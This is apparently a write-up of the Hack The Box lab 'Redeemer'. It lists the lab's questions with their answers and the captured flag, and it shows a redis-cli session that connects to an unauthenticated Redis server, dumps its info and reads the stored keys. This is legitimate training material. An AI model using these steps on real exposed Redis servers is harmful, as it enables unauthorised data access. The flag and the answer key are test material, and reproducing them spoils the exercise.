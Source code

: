 
Which TCP port is open on the machine?
6379

Which service is running on the port that is open on the machine?
redis

What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database
In-memory Database

Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.
redis-cli

Which flag is used with the Redis command-line utility to specify the hostname?
-h

Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?
info

What is the version of the Redis server being used on the target machine?
5.0.7

Which command is used to select the desired database in Redis?
select

How many keys are present inside the database with index 0?
4

Which command is used to obtain all the keys in a database?
keys *

Submit root flag
03e1d2b376c37ab3f5319922053953eb



``` bash
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Redeemer]
└──╼ $redis-cli -h 10.129.144.239
10.129.144.239:6379> info 
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:752
run_id:7c7b63594d79c02b3f2295af3322792246300210
tcp_port:6379
uptime_in_seconds:736
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:7750615
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:859624
used_memory_human:839.48K
used_memory_rss:5890048
used_memory_rss_human:5.62M
used_memory_peak:859624
used_memory_peak_human:839.48K
used_memory_peak_perc:100.12%
used_memory_overhead:846142
used_memory_startup:796224
used_memory_dataset:13482
used_memory_dataset_perc:21.26%
allocator_allocated:1570200
allocator_active:1892352
allocator_resident:9101312
total_system_memory:2084024320
total_system_memory_human:1.94G
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.21
allocator_frag_bytes:322152
allocator_rss_ratio:4.81
allocator_rss_bytes:7208960
rss_overhead_ratio:0.65
rss_overhead_bytes:-3211264
mem_fragmentation_ratio:7.20
mem_fragmentation_bytes:5072432
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:4
rdb_bgsave_in_progress:0
rdb_last_save_time:1685471479
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:6
total_commands_processed:6
instantaneous_ops_per_sec:0
total_net_input_bytes:306
total_net_output_bytes:11572
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:5aa92ab51f3a67047bfd6bdb6febcadece4a120c
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.636231
used_cpu_user:0.786551
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0
10.129.144.239:6379> keys *
1) "flag"
2) "stor"
3) "temp"
4) "numb"
10.129.144.239:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.144.239:6379> 

``` 